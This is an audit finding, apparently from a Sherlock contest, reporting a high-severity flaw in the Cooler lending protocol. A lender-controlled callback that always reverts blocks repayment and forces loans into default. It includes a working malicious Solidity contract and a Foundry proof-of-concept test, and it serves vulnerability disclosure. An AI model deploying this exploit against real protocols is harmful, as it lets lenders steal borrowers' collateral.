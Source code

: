 Early Coral Mantis

high

# Malicious lender could DoS repay functionallity and always default loans.
## Summary
An attacker could implement `onRepay()` callback function to always revert and DoS the option for borrower to repay his loan and collect his collateral, which will always have greater value for the lender.
## Vulnerability Detail
The severity is high, because the execution is easy.
The only thing, which the attacker should do is implement a malicious contract, which implemnts `CoolerCallback` as follows: 
```solidity
contract MockMaliciousLender is CoolerCallback {
    constructor(address coolerFactory_) CoolerCallback(coolerFactory_) {}
    
    /// @notice Callback function that handles repayments. Override for custom logic.
    function _onRepay(uint256 loanID_, uint256 amount_) internal override {
        revert("You just got hacked.");
    }

    /// @notice Callback function that handles rollovers.
    function _onRoll(uint256 loanID_, uint256 newDebt, uint256 newCollateral) internal override {}

    /// @notice Callback function that handles defaults.
    function _onDefault(uint256 loanID_, uint256 debt, uint256 collateral) internal override {}
}
```
Now whenever a user create a Cooler for given pair and request a loan, the hacker clears the loan request from the malicious contract choosing `clearRequest(
        uint256 reqID_ : {attack could do it for all},
        bool repayDirect_ : {doesn't matter},
        bool isCallback_ : true
    )`
And now the attacker just have to wait for the loan to be defaulted which is guaranteed, because it is not possible to be repaid, because rapay function calls the malicious callback:
```solidity
    function repayLoan(uint256 loanID_, uint256 repaid_) external returns (uint256) {
        Loan memory loan = loans[loanID_];
    	... 
        // Log the event.
        factory().newEvent(loanID_, CoolerFactory.Events.RepayLoan, repaid_);

        // @audit If a lender is the atack contract, which will revert on repay, it will make
        // impossible for the borrower to repay his loan, which will lead to the loan being always
        // defaulted, which for sure will profit for the lender, because he will claim the defaulted 
        // collateral, which value is greater, than the lended.
        // If necessary, trigger lender callback.
        if (loan.callback) CoolerCallback(loan.lender).onRepay(loanID_, repaid_);
        return decollateralized;
```
This is a serious attack with possibility to break the system, because there are no conditions, which attacker should depend on to run it.
The attack could be used on each p2p token pair, hacker could use a bot to track for when a user create a new cooler and request a loan, then immediately clear the request using the malicious contract. This will always benefit the attacker, because always the provided collateral is with greater value, than the lended asset. 
## Impact
- This could lead to broken p2p borrowing-lending functionallity, because using the attack the functionallity happens to be `trading with benefit for the lender, who collects his tokens after some time`.
- Lenders steal funds of the borrowers.
## PoC
Here is a test, which shows that the transaction always revert, and at the end the lender could withdraw.
```solidity
    function testRevert_repay_DoS(uint256 amount_, uint256 repayAmount_) public {
        // test inputs
        repayAmount_ = bound(repayAmount_, 1e10, MAX_DEBT);  // min > 0 to have some decollateralization
        amount_ = bound(amount_, repayAmount_, MAX_DEBT);
        bool directRepay = true;
        bool callbackRepay = true;
        // test setup
        cooler = _initCooler();
        (uint256 reqID, ) = _requestLoan(amount_);
        
        // Create a malicious lender that reenters on defaults
        MockMaliciousLender attacker = new MockMaliciousLender(address(coolerFactory));
        deal(address(debt), address(attacker), amount_);

        vm.startPrank(address(attacker));
        // aprove debt so that it can be transferred from the cooler
        debt.approve(address(cooler), amount_);
        uint256 loanID = cooler.clearRequest(reqID, directRepay, callbackRepay);
        vm.stopPrank();

        // block.timestamp < loan expiry
        vm.warp(block.timestamp + DURATION / 2);

        vm.startPrank(owner);
        debt.approve(address(cooler), repayAmount_);
        // The owner (borrower) will now try to repay some part of his loan, but the transaction will always revert, since it 
        // always executes code, which is written from the attacker. In this case 'revert', which will lead to loan being defaulted
        vm.expectRevert("You just got hacked.");
        cooler.repayLoan(loanID, repayAmount_);
        vm.stopPrank();

        vm.warp(block.timestamp + DURATION / 2 + 1);
        cooler.claimDefaulted(loanID);
        // The contract can have function to sent the assets to a EOA of the attacker and so on. Or if the hacker
        // wants to be really bad, he could implement this transfer inside "onDefaulted" function of the CoolerCallback. 

    }
```
## Code Snippet
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Cooler.sol#L185
## Tool used

Manual Review

## Recommendation
- Think of a way to not execute external code inside important logic.
- One solution is to remove this callback functionallity and use internal utility functions inside the contracts (Cleaninghouse.sol) to do the same job (calculations.)